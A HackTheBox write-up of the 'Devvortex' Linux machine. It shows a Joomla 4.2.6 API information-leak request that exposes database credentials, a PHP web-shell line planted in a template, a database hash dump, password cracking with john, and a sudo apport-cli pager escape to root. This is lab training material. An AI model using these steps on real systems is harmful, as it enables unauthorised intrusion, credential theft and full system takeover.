


---
tags:
  - hack
  - linux
---

# HackTheBox: [Devvortex](https://app.hackthebox.com/machines/Devvortex)

> [!tip] Summary with Spoilers
> This was an exercise to use an information leak to gain a foothold on a common CMS, which can then be leveraged into an interactive shell, database access to retrieve password hashes, an easy-to-brute password for the admin's shell account, and then a simple privilege escalation to root.

A full `nmap` scan finds only ports 22 and 80. The web server redirects to `devvortex.htb`, so I add that to `/etc/hosts`.

A `ffuf` scan uncovered a `dev.devvortex.htb` vhost, so I add that as well.

The `dev` site is running Joomla version 4.2.6:

```xml
$ curl http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
<?xml version="1.0" encoding="UTF-8"?>
<extension type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>4.2.6</version>
        <creationDate>2022-12</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>
[...]
```

This version has an [information leak](https://vulncheck.com/blog/joomla-for-rce) that exposes admin credentials:

```json
$ curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

The credentials above don't work for `ssh`, unfortunately.

But, they work for <http://dev.devvortex.htb/administrator/index.php>.

There's also a user `logan`:

```json
$ curl http://dev.devvortex.htb/api/index.php/v1/users?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/users?public=true"},"data":[{"type":"users","id":"649","attributes":{"id":649,"name":"lewis","username":"lewis","email":"lewis@devvortex.htb","block":0,"sendEmail":1,"registerDate":"2023-09-25 16:44:24","lastvisitDate":"2023-11-27 18:43:58","lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Super Users"}},{"type":"users","id":"650","attributes":{"id":650,"name":"logan paul","username":"logan","email":"logan@devvortex.htb","block":0,"sendEmail":0,"registerDate":"2023-09-26 19:15:42","lastvisitDate":null,"lastResetTime":null,"resetCount":0,"group_count":1,"group_names":"Registered"}}],"meta":{"total-pages":1}}
```

I added a PHP web shell to the `error.php` template:



Web shell above is this: `if(isset($_GET['cmd'])) { system($_GET['cmd']); }`

Visiting `http://dev.devvortex.htb/templates/cassiopeia/error.php?cmd=id` works:



From there I'm able to launch a URL-encoded `python3` reverse shell for an interactive cmdline. I connect to the `mysql` instance using the credientials I discovered via the information leak mentioned above, and I dump the `users` table to grab password hashes:

```sql
mysql> select * from sd4fg_users;
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-11-27 18:43:58 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
```

`john` finds the password quickly:

```console
$ john --wordlist=~/rockyou.txt ./hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequie[...]      (?)     
1g 0:00:00:04 DONE (2023-11-27 13:23) 0.2028g/s 284.7p/s 284.7c/s 284.7C/s winston..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

And that gives me the user flag:

```text
www-data@devvortex:~$ su - logan
su - logan
Password: tequie[...]

logan@devvortex:~$ cat user.txt
cat user.txt
87a817[...]
```

Checking for `sudo` privileges:

```text
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

`apport-cli` is a crash-reporting utility. This version is vulnerable to the pager-escape trick if run via `sudo`:

First I look for a crash report to use with the tool:

```text
logan@devvortex:~$ find / -name '*.crash' 2>/dev/null
/var/crash/_usr_bin_apport-cli.0.crash
```

with that I'll run `apport-cli` via `sudo` and wait for `less` to pause the output, and then I use `!sh` to spawn a root shell for the flag:

```console
logan@devvortex:~$ sudo /usr/bin/apport-cli /var/crash/_usr_bin_apport-cli.0.crash

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (30.2 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
[... lots of output, eventually less is triggered ...]
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
e49cc7[...]
```
